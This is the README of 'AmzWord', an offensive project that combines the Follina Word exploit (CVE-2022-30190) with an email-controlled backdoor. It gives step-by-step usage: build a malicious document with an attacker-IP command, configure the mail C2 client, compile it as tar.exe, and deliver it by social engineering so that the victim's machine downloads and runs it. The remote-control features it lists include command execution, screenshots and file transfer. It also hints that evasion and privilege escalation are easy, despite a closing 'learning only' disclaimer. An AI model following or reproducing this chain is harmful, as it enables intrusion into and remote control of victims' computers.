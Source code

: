 # AmzWord

an automated attack chain based on CVE-2022-30190, 163 email backdoor, and image steganography

Thanks to the following github repository, we referenced and modified part of the code to integrate and implement our work:

- [gdog](https://github.com/maldevel/gdog)
- [follina](https://github.com/Noxtal/follina)
- [virtual-reality](https://github.com/rokups/virtual-reality)

中文README[请看这里](https://github.com/Jump-Wang-111/AmzWord/blob/master/README_zh.md)

# Requirements

gdog：

- Python 2.7
- PyCrypto module
- WMI module
- Enum34 module
- Netifaces module

follina：

- Python 3.x

# Usage & attack process

1. Use follina.py to build a malicious word file and turn on http listening

   - You can change the default name and default ip in the code
   - You can also use `--ip` and `--output` to specify
   - Please refer to [follina](https://github.com/Noxtal/follina) for detailed usage. We have not changed the usage interface.
   - eg: `python follina.py --ip 100.100.100.100 --output maldoc.doc`

2. Modify client.py and gdog.py under gdog and fill in the following information

   ```python
   gmail_user = 'your email'
   gmail_pwd = 'your pwd'
   server = "smtp server"
   imap_server = 'imap server'
   ```

3. Compile client.py into tar.exe and place it under /follina/www

4. Use any social engineering method to send it to the target. As long as the victim opens word, tar.exe will be automatically downloaded and executed.

5. The attacker runs gdog locally and sends commands to control the target machine. For usage, see [follina](https://github.com/Noxtal/follina)

# Remark

1. This is just a demo of the attack chain implementation. The running exe can even be found in the task manager, which makes it easy to observe the effect. We did not perform any operations such as anti-virus, hiding, and privilege escalation. Of course, these are not difficult on Windows, right?
2. The gdog project has been around for a long time, and we have spent a lot of effort to make it run successfully. The remote control commands that are currently confirmed include: executing commands, taking screenshots, pop-up windows, shutting down, locking the screen, and transferring files. These functions Sufficient to suit most needs.
3. I don’t know why, but there seems to be some problem with imap’s SUBJECT search. We cannot search for emails with the target subject, and the return value is empty. We can only take other methods, such as reading all unread emails, filtering out the targets, and then setting others as unread. This may cause problems when there are many controlled users and needs to be solved.
4. This project is only for learning and exchange purposes.